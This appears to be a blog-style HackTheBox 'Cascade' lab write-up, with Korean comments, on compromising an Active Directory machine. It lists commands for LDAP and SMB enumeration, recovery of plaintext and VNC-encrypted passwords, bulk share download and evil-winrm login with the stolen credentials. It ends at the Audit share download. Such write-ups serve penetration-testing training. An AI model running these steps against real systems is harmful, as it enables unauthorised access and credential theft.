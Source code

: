 ```yaml
---
layout: post
title: HackTheBox Cascade
subtitle: Acitive Directory 101 Cascade Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Cascade/e62731204ae8e75e2ba8c8157bcd0580_MD5.jpeg)

## Target - 10.129.192.253
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.192.253 -oN Cascade_allport
```
![](/assets/images/posts/2025-03-04-Cascade/d068db01853b01b1190c5f0893e7b02d_MD5.jpeg)
### LDAP Enumeration Using Ldapsearch
```bash
# https://www.geeksforgeeks.org/ldap-enumeration/
# username 찾기
crackmapexec smb 10.129.192.253 -u '' -p '' --users

# 위에서 찾은 username으로 Ldapsearch
ldapsearch -x -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w '' | grep -i r.thompson
ldapsearch -x sAMAccountName=r.thompson -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w ''

# base64 decoding
rY4n5eva
```

![](/assets/images/posts/2025-03-04-Cascade/da2a3a579a986c400ebd047f5b8475ca_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/a6d72c86ee2c0b9b205f1195837f5c8b_MD5.jpeg)
### SMB Enum (r.thompson Auth)
```bash
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --shares
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --spider Data --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Data -U 'r.thompson' --password='rY4n5eva'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
![](/assets/images/posts/2025-03-04-Cascade/bbf9d5955c0dc34aa49627a6d170bfbd_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/d65a2eb43a96c57e046d458ac7dc5716_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/c063e77df0b824b11bddc95e5b68fe55_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/8ee32c59ed3ec56f3938512a9ea94f3b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/1689b05737a050bda11825906eba2c92_MD5.jpeg)

### VNC Decrypt
```bash
# https://github.com/billchaison/VNCDecrypt
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```
![](/assets/images/posts/2025-03-04-Cascade/802c943dd31ce351b2bb1497c97057b7_MD5.jpeg)

### evil-WinRM
```bash
evil-winrm -i 10.129.192.253 -u s.smith -p sT333ve2
```
![](assets/images/posts/2025-03-04-Cascade/c62bd9b245ee6cf85329f44dcb910f1b_MD5.jpeg)
#### In Evil-WinRM
```bash
# https://activedirectorypro.com/get-aduser-examples/ 참고해서 해보기
net user s.smith

# s.smith 로그인 시 실행되는 파일 찾기
dir C:\ -recurse -filter MapAuditDrive.vbs
type C:\Windows\SYSVOL\sysvol\cascade.local\scripts\MapAuditDrive.vbs
type C:\Windows\SYSVOL\domain\scripts\MapAuditDrive.vbs

# smb re-enum
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --shares
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --spider Audit$ --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Audit$ -U 's.smith' --password='sT333ve2'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```

![](assets/images/posts/2025-03-04-Cascade/4f2aa2c333a1674855e684e3995f3069_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/bdd8034515a299f96fba98278f6552b3_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/faab4f175aa18ad9e1a2ba1c12f52c6d_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/df502df7219d87e613d796e2f72e614b_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/9e2c997ddba01c1a6a941702ea16119b_MD5.jpeg)